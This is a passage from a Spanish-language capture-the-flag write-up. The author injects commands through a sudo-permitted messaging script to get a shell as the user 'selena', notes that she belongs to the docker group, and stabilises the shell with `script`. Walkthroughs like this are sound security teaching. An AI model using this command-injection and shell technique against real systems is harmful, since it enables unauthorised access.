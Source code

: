 Vemos que esta utilizando `echo` para simular una especie de chat, vamos a ejecutarlo a ver que pasa.

```shell
sudo -u selena /home/messenger.sh
```

Info:

```
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : selena

Enter message for selena :id

Sending message to selena 
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)

Message sent to selena :)
```

Vemos que se esta ejecutando los comandos que meto, en este caso `id` que por cierto estamos viendo que pertenece al grupo `docker`, vamos a poner directamente `bash` para obtener una shell como dicho usuario.

```shell
sudo -u selena /home/messenger.sh
```

Info:

```
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : selena

Enter message for selena :bash

Sending message to selena 
whoami
selena
```

Ahora vamos a sanitizarlo un poco.

```shell
script /dev/null -c bash
```
